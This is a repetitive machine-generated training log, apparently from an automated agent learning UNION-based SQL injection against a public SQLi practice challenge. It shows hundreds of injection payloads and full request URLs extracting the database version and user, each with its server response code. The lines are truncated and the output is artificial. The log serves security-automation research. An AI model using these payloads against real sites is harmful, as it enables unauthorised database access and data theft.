  0%|          | 1378/1000000 [8:38:03<1653:18:14,  5.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1379/1000000 [8:38:04<1239:42:51,  4.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax

  0%|          | 1380/1000000 [8:39:02<5653:54:22, 20.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server

  0%|          | 1381/1000000 [8:39:31<6364:11:26, 22.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1382/1000000 [8:39:32<4530:45:16, 16.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1383/1000000 [8:39:34<3331:08:25, 12.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1384/1000000 [8:39:36<2492:27:16,  8.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1385/1000000 [8:39:37<1821:37:46,  6.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/

  0%|          | 1386/1000000 [8:40:15<4476:27:04, 16.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1387/1000000 [8:40:17<3286:31:31, 11.85s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1388/1000000 [8:40:18<2378:34:49,  8.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1389/1000000 [8:40:19<1742:31:15,  6.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1390/1000000 [8:40:20<1295:46:54,  4.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1391/1000000 [8:40:21<996:16:33,  3.59s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1392/1000000 [8:40:22<780:21:29,  2.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1393/1000000 [8:40:23<622:33:18,  2.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Serv

  0%|          | 1394/1000000 [8:41:16<4884:08:20, 17.61s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1395/1000000 [8:41:17<3501:08:08, 12.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1396/1000000 [8:41:22<2852:53:56, 10.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union selec

  0%|          | 1397/1000000 [8:42:44<8856:40:11, 31.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1398/1000000 [8:42:45<6292:29:19, 22.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1399/1000000 [8:42:46<4481:23:29, 16.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1400/1000000 [8:42:47<3215:05:35, 11.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1401/1000000 [8:42:48<2327:13:09,  8.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1402/1000000 [8:42:49<1728:10:27,  6.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1403/1000000 [8:42:50<1284:40:09,  4.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1404/1000000 [8:42:52<998:40:13,  3.60s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1405/1000000 [8:42:52<775:36:10,  2.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1406/1000000 [8:42:53<619:41:33,  2.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1407/1000000 [8:42:54<510:35:06,  1.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1408/1000000 [8:42:55<440:13:25,  1.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1409/1000000 [8:42:56<388:51:39,  1.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1410/1000000 [8:42:57<354:43:18,  1.28s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1411/1000000 [8:42:58<323:16:51,  1.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1412/1000000 [8:42:59<301:32:08,  1.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1413/1000000 [8:43:01<370:49:46,  1.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1414/1000000 [8:43:02<339:04:16,  1.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1415/1000000 [8:43:03<313:40:15,  1.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1416/1000000 [8:43:04<296:29:50,  1.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with dif

  0%|          | 1417/1000000 [8:43:28<2181:16:46,  7.86s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1418/1000000 [8:43:28<1608:57:41,  5.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1419/1000000 [8:43:29<1202:45:45,  4.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1420/1000000 [8:43:30<924:02:50,  3.33s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and

  0%|          | 1421/1000000 [8:44:20<4814:51:42, 17.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 uni

  0%|          | 1422/1000000 [8:48:48<25638:04:43, 92.43s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,u

  0%|          | 1423/1000000 [8:52:47<37832:48:48, 136.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervis

  0%|          | 1424/1000000 [8:52:59<27435:04:05, 98.91s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2-

  0%|          | 1425/1000000 [8:53:07<19928:55:39, 71.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union

  0%|          | 1426/1000000 [8:53:45<17077:22:38, 61.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1427/1000000 [8:53:46<12035:21:41, 43.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1428/1000000 [8:53:47<8506:10:45, 30.67s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1429/1000000 [8:53:48<6036:45:04, 21.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1430/1000000 [8:53:49<4309:44:38, 15.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1431/1000000 [8:53:50<3108:17:55, 11.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1432/1000000 [8:53:51<2250:10:54,  8.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1433/1000000 [8:53:52<1667:05:22,  6.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1434/1000000 [8:53:53<1246:10:17,  4.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?i

  0%|          | 1435/1000000 [8:56:00<11482:29:30, 41.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixe

  0%|          | 1436/1000000 [8:56:55<12608:20:49, 45.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1437/1000000 [8:56:56<8903:31:05, 32.10s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1438/1000000 [8:56:59<6467:53:00, 23.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1439/1000000 [8:57:00<4604:44:30, 16.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1440/1000000 [8:57:02<3382:11:02, 12.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1441/1000000 [8:57:03<2446:47:57,  8.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1442/1000000 [8:57:04<1820:20:23,  6.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1443/1000000 [8:57:06<1435:42:30,  5.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1444/1000000 [8:57:07<1081:33:47,  3.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1445/1000000 [8:57:08<833:16:13,  3.00s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,

  0%|          | 1446/1000000 [8:57:30<2411:33:55,  8.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1447/1000000 [8:57:31<1766:29:04,  6.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1448/1000000 [8:57:32<1335:49:33,  4.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
